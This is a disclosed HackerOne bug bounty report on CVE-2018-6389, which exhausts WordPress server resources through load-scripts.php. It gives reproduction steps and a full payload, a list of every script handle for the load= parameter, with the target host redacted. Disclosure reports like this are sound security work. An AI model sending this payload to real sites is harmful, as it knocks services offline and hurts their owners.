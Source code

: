 # CVE-2018-6389 exploitation - using scripts loader

## Report Details
- **Report ID**: 2334446
- **URL**: https://hackerone.com/reports/2334446
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-01-25T14:07:40.495Z
- **Disclosed**: 2024-02-13T13:20:19.659Z

## Reporter
- **Username**: 0xhacker1xox
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: publitas

## Vulnerability Information
Hi  Team !


Unauthenticated attackers can cause a denial of service (resource consumption) by using the large list of registered .js files (from wp-includes/script-loader.php) to construct a series of requests to load every file many times.
The vulnerability is registered as CVE-2018-6389.
WordPress allows users to load multiple JS files and CSS files through load-scripts.php files at once. However, the number and size of files are not restricted in the process of loading JS files, attackers can use this function to deplete server resources and launch denial of service attacks.

References
The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389
https://hackerone.com/reports/925425
https://hackerone.com/reports/335177
https://hackerone.com/reports/753491


Platform(s) Affected: [website]
- █████████?load=

Steps To Reproduce:
Open Vulnerability url - open directory /wp-admin/load-scripts.php?load=
Add parameter-vulnerable in request header
In request header using GET-Method


Payloads Vulnerabilities

eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

## Impact

Attackers can use this vulnerable function to deplete server resources and launch denial of service attacks.

## Attachments
- Screenshot_2024-01-25_060705.png
